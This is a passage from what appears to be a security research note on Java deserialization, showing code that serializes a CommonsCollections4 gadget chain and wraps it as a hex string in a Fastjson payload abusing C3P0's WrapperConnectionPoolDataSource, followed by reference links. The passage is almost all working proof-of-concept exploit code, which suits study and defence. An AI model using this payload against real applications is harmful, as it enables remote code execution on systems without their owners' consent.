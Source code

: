 ```java
        in.read(classBytes);
        in.close();
        return classBytes;
    }

    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);

        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }

            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }

    public static void main(String[] args) throws Exception {

        PriorityQueue queue = CommonsCollections4();

        String filePath = "src/main/java/org/h3rmesk1t/C3P0/ser.bin";
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream(filePath));
        outputStream.writeObject(queue);
        outputStream.close();
        InputStream inputStream = new FileInputStream(filePath);
        byte[] bytes = toByteArray(inputStream);
        String hexString = bytesToHexString(bytes, bytes.length);
        
        String poc = "{\n\t\"@type\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\n\t\"userOverridesAsString\": \"HexAsciiSerializedMap:" + hexString + ";\"\n}";
        System.out.println(poc);
        JSON.parseObject(poc);
    }
}
```

<div align=center><img src="./images/22.png"></div>


# refer to
 - [Three gadgets of c3p0](http://redteam.today/2020/04/18/c3p0%E7%9A%84%E4%B8%89%E4%B8%AAgadget/)
 - [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)